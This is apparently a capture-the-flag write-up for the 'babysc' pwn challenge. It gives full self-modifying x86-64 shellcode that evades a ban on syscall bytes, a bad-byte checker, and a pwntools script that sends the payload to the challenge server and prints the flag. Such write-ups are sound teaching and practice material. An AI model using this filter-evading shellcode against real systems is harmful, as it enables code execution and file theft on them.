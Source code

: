 
### babysc (Pwn)

![image 1](https://github.com/user-attachments/assets/d754e898-6e6f-4ddc-b87f-e73e0679ade1)


### Overview

- **Challenge**: Execute shellcode on a remote server to read and output /flag.
- **Setup**: Binary maps rwx memory at 0x26e45000, accepts 0x1000 bytes of shellcode, bans bytes 0x80cd, 0x340f, 0x050f (system call instructions).
- **Goal**: Open /flag, read it, write to stdout, exit cleanly.

### Constraints

- **Banned Bytes**: 0x80cd (int 0x80), 0x340f (sysenter), 0x050f (syscall).
- **Impact**: No direct system calls allowed.

### Approach

- **Self-Modifying Shellcode**:
    - Use stub 0x0f 0x04 (safe initially).
    - Modify to 0x0f 0x05 (syscall) at runtime.
    - Perform system calls with modified stub.

### Solution

1. **Shellcode (NASM)**:
    
    
    ```jsx
    BITS 64
    _start:
        lea rax, [rel stub]
        mov byte [rax + 1], 0x05    *; Make syscall*
        lea rdi, [rel flag_str]     *; "/flag"*
        mov rax, 2                  *; open*
        mov rsi, 0                  *; O_RDONLY*
        call stub
        mov r12, rax                *; Save fd*
        mov rax, 0                  *; read*
        mov rdi, r12
        lea rsi, [rel buffer]
        mov rdx, 0x100              *; 256 bytes*
        call stub
        mov rax, 1                  *; write*
        mov rdi, 1                  *; stdout*
        lea rsi, [rel buffer]
        mov rdx, 0x100
        call stub
        mov rax, 60                 *; exit*
        mov rdi, 0
        call stub
    stub:
        db 0x0f, 0x04               *; Becomes 0x0f 0x05*
        ret
    flag_str: db "/flag", 0
    buffer: times 256 db 0
    ```
    
    - **Compile**: nasm -f bin shellcode.asm -o shellcode.bin
2. **Verification**:
    
    ```python
    `with open("shellcode.bin", "rb") as f:
        data = f.read()
    bad_words = [0x80cd, 0x340f, 0x050f]
    for i in range(len(data) - 1):
        word = data[i] | (data[i + 1] << 8)
        if word in bad_words:
            print(f"Bad byte at {i}: {hex(word)}")
            exit(1)
    print("No bad bytes found.")`
    
    - **Result**: No bad bytes.
    ```
    
3. **Exploit (pwntools)**:
    
    ```python
    from pwn import *
    context.arch = 'amd64'
    with open("shellcode.bin", "rb") as f:
        shellcode = f.read()
    r = remote("34.133.69.112", 10001)
    r.send(shellcode)
    print(r.recvall().decode())
    r.close()
    ```
    
    - **Output**: **umcs{shellcoding_78b18b51641a3d8ea260e91d7d05295a**}
